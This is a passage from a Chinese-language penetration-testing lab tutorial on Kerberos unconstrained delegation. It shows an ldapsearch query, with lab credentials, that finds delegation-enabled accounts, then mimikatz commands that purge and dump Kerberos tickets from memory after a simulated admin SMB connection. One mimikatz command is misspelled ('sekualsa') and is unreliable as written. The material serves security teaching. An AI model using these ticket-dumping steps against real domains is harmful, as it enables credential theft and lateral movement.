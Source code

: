 **查询非约束委派的用户：**

`ldapsearch -LLL -x -H ldap://172.16.147.130:389 -D "win7user@pentest.com" -w "123456" -b dc=pentest,dc=com "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" cn distinguishedName`

#### [](#222-%E9%9D%9E%E7%BA%A6%E6%9D%9F%E5%A7%94%E6%B4%BE%E7%9A%84%E5%88%A9%E7%94%A8)2.2.2 非约束委派的利用

##### [](#2221-%E7%AE%A1%E7%90%86%E5%91%98%E6%A8%A1%E6%8B%9F%E8%AE%BF%E9%97%AE)2.2.2.1 管理员模拟访问

信息

实验前建议清除内存中的票据，mimikatz 下：`kerberos::purge`

模拟管理员调用非约束性委派机的 smb 服务：`net use \\win7\c$`

回到非约束委派机，查看票据 (**部分截图**)：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```bash<br>privilege::debug<br>sekualsa::tickets<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210125153427.png-water_print](assets/1699409170-5d090273144a1a421b1d5c25f4737314.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210125153427.png-water_print")
